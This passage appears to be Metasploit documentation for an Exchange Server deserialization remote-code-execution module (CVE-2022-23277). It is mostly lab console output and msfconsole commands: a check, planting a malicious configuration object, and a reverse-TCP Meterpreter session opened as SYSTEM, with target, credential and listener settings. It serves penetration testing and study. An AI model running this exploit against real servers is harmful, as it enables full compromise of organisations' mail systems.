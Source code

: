 ```
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target is an Exchange Server!
[+] The target appears to be vulnerable. Exchange Server 15.1.2375.18 is vulnerable to CVE-2022-23277
[*] Getting the user's inbox folder's ID and ChangeKey ID...
[+] ChangeKey value for Inbox folder is AQAAABYAAAD9j/m9iNuTRpA5mrD5EV0AAAB3/PSE
[+] ID value for Inbox folder is AQMkADU1ADBhYjYzMi02MTQ3LTRlOTEtYjU1ADAtN2M0ZDBhYjYzODVlAC4AAAMhko4gUQEoR6mlLklj/zwrAQD9j/m9iNuTRpA5mrD5EV0AAAMBDAAAAA==
[*] Deleting the user configuration object associated with Inbox folder...
[+] Successfully deleted the user configuration object associated with the Inbox folder!
[*] Creating the malicious user configuration object on the Inbox folder!
[+] Successfully created the malicious user configuration object and associated with the Inbox folder!
[*] Attempting to deserialize the user configuration object using a GetClientAccessToken request...
[*] Sending stage (175686 bytes) to 192.168.250.237
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.237:59440) at 2022-08-16 15:47:55 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter >
```

### Exchange Server 2019 CU11 Jan22SU (Build 15.2.986.15) on Windows Server 2019 x64 (CVE-2022-23277)

```
msf6 > use exploit/windows/http/exchange_chainedserializationbinder_rce
[*] No payload configured, defaulting to cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set RHOSTS 192.168.159.11
RHOSTS => 192.168.159.11
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpUsername aliddle
HttpUsername => aliddle
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpPassword Password1!
HttpPassword => Password1!
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set DOMAIN MSFLAB.LOCAL
DOMAIN => MSFLAB.LOCAL
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > show options

Module options (exploit/windows/http/exchange_chainedserializationbinder_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  Password1!       yes       The password to use to authenticate to the Exchange server
   HttpUsername  aliddle          yes       The username to log into the Exchange server as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.159.11   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         443              yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b